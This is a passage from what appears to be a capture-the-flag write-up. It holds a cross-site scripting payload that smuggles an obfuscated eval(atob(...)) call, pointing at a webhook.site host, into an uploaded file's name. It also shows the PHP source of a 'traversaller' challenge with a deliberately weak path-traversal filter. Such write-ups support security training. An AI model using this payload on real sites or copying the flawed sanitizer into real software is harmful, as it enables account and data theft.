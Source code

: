 ```html
<form action="http://shop/contest.php" method="POST" enctype="multipart/form-data">
  <input type="file" name="fileToUpload" id="fileToUpload" />
</form>
<script>
  const file = new File(
    ['foo'],
    "foo'><svg onload=eval(atob('aHR0cHM6Ly93ZWJob29rLnNpdGUvZGE0NWViMTctYzIzZC00NmViLWE2N2ItZGE3MTY4ZWE1MDhi=='))>.jpg",
    {
      type: 'chall-sc/jpeg',
    }
  )

  const dataTransfer = new DataTransfer()
  dataTransfer.items.add(file)

  const form = document.forms[0]
  form.children[0].files = dataTransfer.files

  form.submit()
</script>
```

## traversaller

### ![chall-sc](https://hackmd.io/_uploads/S1hvYoLCp.png)

```php
<?php
ini_set("error_reporting", 0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "/var/www/html/flag.php";

function sanitize_path($p) {
        return str_replace(array("\0","\r","\n","\t","\x0B",'..','./','.\\','//','\\\\',),'',trim($p, "\x00..\x1F"));
}
$path = $_GET['path'];
if(isset($path) && str_contains($path, "/var/www/html/static/")) {
    die(file_get_contents(sanitize_path($path)));
}

?>

<html>
    <head>
        <title>Traversaller</title>
    </head>
    <body>
        <h1>Traversaller</h1>
        <p>To view the source code, <a href="/?source">click here.</a>
        <script src="/?path=/var/www/html/static/flag.js"></script>
    </body>
</html>
```
